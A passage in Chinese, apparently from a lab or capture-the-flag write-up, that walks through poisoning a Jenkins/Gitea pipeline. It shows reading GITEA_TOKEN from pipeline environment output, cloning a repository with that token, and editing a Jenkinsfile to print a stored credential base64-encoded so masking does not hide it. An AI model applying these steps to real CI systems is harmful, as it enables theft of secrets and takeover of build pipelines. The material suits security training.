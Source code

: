然后提交合并到原仓库，触发名字 wonderland-caterpillar-test 的 pipeline  
[![1656742841700.png](assets/1702372834-b873bacdf9291baeedeeb6e7e70fa791.png)](https://storage.tttang.com/media/attachment/2022/07/06/d31162e8-8c78-48d1-ba10-258d9c5a34e7.png)  
在输出的环境变量中可找到 GITEA\_TOKEN  
之后使用该 Gitea 令牌克隆原仓库

```bash
git clone http://5d3ed5564341d5060c8524c41fe03507e296ca46@192.168.249.131:3000/Wonderland/caterpillar.git
```

修改克隆的仓库 Jenkinsfile 文件，输出其中的 Flag

```bash
stage('deploy') {
    steps {
        withCredentials([usernamePassword(credentialsId: 'flag2', usernameVariable: 'flag2', passwordVariable: 'TOKEN')]) {
            sh 'echo $TOKEN | base64'
        }
    }
}
```

之后再创建分支并提交、合并，即可触发另一个 wonderland-caterpillar-prod 的管道  
[![1656748696026.png](assets/1702372834-76d74e689f339894b005d9e7c225fcff.png)](https://storage.tttang.com/media/attachment/2022/07/06/c27f9fd9-e57d-4978-9c1c-fc1d719dd37f.png)  
再来看看这两个管道有什么区别，首先是第一个 wonderland-caterpillar-test 的管道，触发该管道需要来自 fork 的合并  